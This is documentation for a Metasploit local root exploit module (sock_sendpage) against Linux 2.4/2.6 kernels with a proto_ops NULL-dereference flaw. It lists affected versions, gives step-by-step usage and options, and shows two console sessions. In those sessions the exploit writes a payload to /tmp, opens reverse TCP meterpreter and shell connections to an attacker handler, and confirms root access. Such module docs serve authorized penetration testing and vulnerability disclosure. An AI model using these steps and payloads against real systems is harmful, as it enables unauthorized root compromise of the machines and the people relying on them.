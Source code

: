 ## Description

  The Linux kernel failed to properly initialize some entries in the
  `proto_ops` struct for several protocols, leading to `NULL` being
  dereferenced and used as a function pointer. By using `mmap(2)` to map
  page `0`, an attacker can execute arbitrary code in the context of the
  kernel.


## Vulnerable Application

  Several public exploits exist for this vulnerability, including
  spender's `wunderbar_emporium` and rcvalle's ppc port, `sock_sendpage.c`.

  All Linux 2.4/2.6 versions since May 2001 are believed to be affected:

  * 2.4.4 up to and including 2.4.37.4
  * 2.6.0 up to and including 2.6.30.4

  This module has been tested successfully on:

  * CentOS 5.0 (i386) with kernel version 2.6.18-8.1.1.tl5
  * Debian 3.1r8 Sarge (i686) with kernel version 2.4.27-3-386


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/sock_sendpage`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)

### DEBUG_EXPLOIT

  Enable exploit debug messages. (default: `false`)


## Scenarios

  ### CentOS 5.0 (i386) with kernel version 2.6.18-8.1.1.tl5

  ```
  msf > use exploit/linux/local/sock_sendpage 
  msf exploit(linux/local/sock_sendpage) > set session 1
  session => 1
  msf exploit(linux/local/sock_sendpage) > set verbose true
  verbose => true
  msf exploit(linux/local/sock_sendpage) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/local/sock_sendpage) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 2.6.18 appears to be vulnerable
  [+] System architecture i686 is supported
  [+] vm.mmap_min_addr is not set
  [*] Writing '/tmp/.MCpzrCREnMXU' (3509 bytes) ...
  [*] Max line length is 65537
  [*] Writing 3509 bytes in 1 chunks of 10560 bytes (octal-encoded), using printf
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (857352 bytes) to 172.16.191.159
  [*] Meterpreter session 34 opened (172.16.191.188:4444 -> 172.16.191.159:37663) at 2018-04-10 06:50:13 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.159
  OS           : CentOS 5 (Linux 2.6.18-8.1.1.tl5)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### Debian 3.1r8 Sarge (i686) with kernel version 2.4.27-3-386

  ```
  msf > use exploit/linux/local/sock_sendpage 
  msf exploit(linux/local/sock_sendpage) > set payload linux/x86/shell/reverse_tcp
  payload => linux/x86/shell/reverse_tcp
  msf exploit(linux/local/sock_sendpage) > set session 1
  session => 1
  msf exploit(linux/local/sock_sendpage) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 2.4.27 appears to be vulnerable
  [+] System architecture i686 is supported
  [+] vm.mmap_min_addr is not set
  [*] Writing '/tmp/.69p3FeagB' (3509 bytes) ...
  [*] Max line length is 65537
  [*] Writing 3509 bytes in 1 chunks of 10560 bytes (octal-encoded), using printf
  [*] Executing payload...
  [*] Sending stage (36 bytes) to 172.16.191.227
  [*] Command shell session 35 opened (172.16.191.188:4444 -> 172.16.191.227:32836) at 2018-04-10 06:59:08 -0400
  [!] Tried to delete /tmp/.69p3FeagB, unknown result

  3356110123
  lfvaliLFShnAfRQkCHUXFtuyGXKylJSN
  TJloQpOJsrsnQSfZpNAjWcbqNuHanLeI
  LeKIAUjwBMRhxjJjVvvrdvwErYZnxPYr
  id
  uid=0(root) gid=0(root) groups=100(users)
  uname -a
  Linux sarge 2.4.27-3-386 #1 Wed Dec 6 00:38:33 UTC 2006 i686 GNU/Linux
  ```

